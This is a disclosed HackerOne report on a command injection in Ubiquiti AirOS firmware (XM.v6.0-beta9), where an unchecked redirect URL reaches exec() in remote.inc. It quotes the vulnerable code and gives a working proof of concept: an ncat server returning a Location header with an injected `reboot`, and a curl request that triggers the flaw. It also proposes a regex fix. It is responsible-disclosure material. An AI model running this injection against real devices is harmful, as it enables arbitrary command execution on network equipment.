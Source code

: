 # Read-Only user can execute arbitraty shell commands on AirOS

## Report Details
- **Report ID**: 139398
- **URL**: https://hackerone.com/reports/139398
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-05-17T17:47:16.026Z
- **Disclosed**: 2016-08-05T09:36:57.491Z

## Reporter
- **Username**: rbran
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ui

## Vulnerability Information
This vulnerability is very similar to #128750, but it avoid the solution applied to the last beta XM firmware.

In this report is used the last beta XM firmware: `XM.v6.0-beta9`

# Vulnerability
The vulnerability resides in the function `fetchCookies` file `remote.inc:117`. Just like last time is a non sanitization or verification of the server (remote) response.

```
		if ($res == -11) { #received the redirect
			# got redirect, will have to try new one (if that's login.cgi)
			$lcount = count($lines);
			if ($lcount > 0) {
				$new_url = $lines[$lcount - 1]; # the URL returned by the attacker have shell code injected
			}
			$rg_login = "(https?://$ip(:[[:digit:]]+)?)/login.cgi"; #regex don't property verify the URL, it allow string before and after the URL
			if (IsSet($new_url) && ereg($rg_login, $new_url, $regs)) {
				$retry = 1;
				$base_url = $regs[1];
				$url = $new_url; # URL with shell code is utilized
			}
		}
		#[[REMOVED CODE]]

		if ($retry != 0) {
			$full_cmd = "$cmd_trigger -p $url"; # URL with shell code is injected
			exec($full_cmd, $lines, $res); # shell code executed
			$res = getRetVal($res);
		}

		}
```

# Proof-of-concept
First we (attacker) need to initialize a local server to make the redirect to the victim, in this example the attacker ip is `192.168.1.100`:
```
echo -en "HTTP/1.1 302 Found\r\nLocation: https://192.168.1.100/login.cgi `reboot`\r\nContent-Length: 0\r\n\r\n" | ncat -lp 8080
```

So you need to run a speed test against the attacker host, with can be done using the Web interface `https://192.168.1.20/sptest.cgi`, or by the following command (making the required adjusts):
```
curl 'https://192.168.1.20/sptest_action.cgi?ticket=507&action=remote&target=192.168.1.100&port=8080&login=ignore&passwd=ignore&airosid=96ba18a3aa55ba4c6e1f8ab111a9fb8f&_=1463505340471' -H 'Cookie: AIROS_001122334455=96ba18a3aa55ba4c6e1f8ab111a9fb8f; ui_language=en_US; last_check=1463504970136' 
```

# Possible Solution
This bug can be solved using literally 2 character, the REGEX end `$` and begin `^`:
```
$rg_login = "^(https?://$ip(:[[:digit:]]+)?)/login.cgi$";
```

## Attachments
No attachments

